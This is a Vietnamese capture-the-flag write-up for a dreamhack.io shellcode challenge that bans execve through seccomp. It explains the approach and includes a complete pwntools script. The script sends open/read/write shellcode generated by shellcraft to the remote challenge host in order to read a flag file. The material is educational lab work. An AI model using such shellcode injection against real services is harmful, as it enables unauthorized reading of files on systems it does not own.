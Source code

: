 # Shell_craft (tool tự dộng viết shellcode :Đ)
## 1. Chall Thử
### 1.1. Source.
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  void *buf; // [rsp+10h] [rbp-10h]

  buf = mmap(0LL, 0x1000uLL, 7, 34, -1, 0LL);
  init(0LL);
  banned_execve(0LL);
  printf("shellcode: ");
  read(0, buf, 0x1000uLL);
  return ((__int64 (__fastcall *)(_QWORD))buf)(0LL);
}

__int64 banned_execve()
{
  __int64 v1; // [rsp+8h] [rbp-8h]

  v1 = seccomp_init(2147418112LL);
  if ( !v1 )
    exit(0);
  seccomp_rule_add(v1, 0LL, 59LL, 0LL);
  seccomp_rule_add(v1, 0LL, 322LL, 0LL);
  return seccomp_load(v1);
}
```
### 1.2. Hướng giải.
- Bắt đầu 1 bài shellcode thì ta cần check `ROPgadget` trước xem ta có thể khai thác theo hướng này đc không.
![1701454352143](image/shell_basic(learn_new_tools)/1701454352143.png)

![1701454409153](image/shell_basic(learn_new_tools)/1701454409153.png)

![1701454428289](image/shell_basic(learn_new_tools)/1701454428289.png)

- Đề bài trên `dreamhack.io` cũng phân định rõ luôn là ta sẽ ko thể nào gọi các lệnh thực thi như `execve` hay `execveat` , cũng như là sa khi check `ROPgadget` cũng chả thấy `syscall` đâu. Và chall cũng cho ta 1 đường dẫn để có thể lấy được `flag`. Thế nên ta sẽ xài đến `shellcraft`.
- Ta có thể sử dụng `shellcraft` khi mà chương trình ko cho phép sử dụng lệnh thực thi cũng như `syscall` , và `shellcraft` cũng có thể vừa viết `shell_/bin/sh` bằng lệnh `shellcraft.sh()` hay các `seccomp custom` như `shellcraft.read(agr1,agr2,agr3)`, `shellcraft.open(file)` chẳng hạn,  thế nên ta sẽ tận dụng `shellcraft` để `open()`, `read()` và `write()` truy cập vào đường dẫn đã cho và in ra flag thuiiii :>> .
![1701455137147](image/shell_basic(learn_new_tools)/1701455137147.png)
- Về cơ bản thì source cơ bản sẽ như này , ở `shellcraft.read()` arg1 mình có thể để là 0x0 cũng được nhưng ta phải thao tác thêm tham số bên ngoài thế nên ta vứt đại rax vào cho nhẹ người :)) .
- Ngoài ra ta phải định dạng kiến trúc hợp ngữ asm là amd64 trong script.
![1701455303441](image/shell_basic(learn_new_tools)/1701455303441.png)
- Chạy thử script thì ta đã thu đc flag gòi :Đ .
![1701455333722](image/shell_basic(learn_new_tools)/1701455333722.png)
## 2. Script.
```
#!/usr/bin/python3

from pwn import *

exe = ELF('shell_basic', checksec=False)
# libc = ELF('0', checksec=False)
context.binary = exe
context.arch = "amd64"

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b
                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('host3.dreamhack.games', 8213)
else:
        p = process(exe.path)

GDB()
io = '/home/shell_basic/flag_name_is_loooooong'

shellcode = shellcraft.open(io)
shellcode += shellcraft.read('rax','rsp',0x80)
shellcode += shellcraft.write(1,'rsp', 0x80)    
    
payload = asm(shellcode)

p.sendafter(b'shellcode: ',payload)

p.interactive()
```
